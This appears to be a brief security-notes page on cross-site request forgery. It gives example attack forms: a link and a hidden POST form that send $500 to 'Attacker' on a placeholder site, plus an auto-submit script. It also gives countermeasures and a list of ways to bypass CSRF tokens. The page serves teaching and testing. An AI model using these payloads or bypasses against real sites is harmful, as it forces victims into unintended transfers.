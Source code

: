 # Cross Site Request Forgery Vulnerability

CSRF is an attack vector that allows an attacker to get the users to perform actions that they do not intend to perform. 

### Get Request
`
<a href="http://site.com/send?to=Attacker&amount=$500">Click me!</a>
`
### Post Request
`<form action="http://site.com/send" method="POST">
	<input type="hidden" name="to" value="Attacker"/>
	<input type="hidden" name="amount" value="$500"/>
	<input type="submit" value="Click me"/>
</form>
`

To perform an automatic submit:

`<script>
	document.forms[0].submit();
</script>
`

![CSRF](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/csrf-cross-site-request-forgery.png)

***

## Countermeasures:

	- Implementing a CSRF token, This random token is unique for every session ID, it acts as an extra parameter when performing a request to make sure the origin of the request and verified by the server.
	- Generate random tokens for both Cookies and Request parameters.
	- Users should log off from website when they aren't in use, with disallowing the browser to save the credentials.

***

## Technique to bypass Token verifications: 

	- Removing the CSRF Token from the request, or leaving it empty.
	- Use a duplicated token from a previous request.
	- Check if you can predict the token generation mechanism.
	- Sending a random token

***

## Takeaways: 

	- Keep an eye for HTTP requests that perform some action on the server.
	- Get requests should never modify any data on the server.

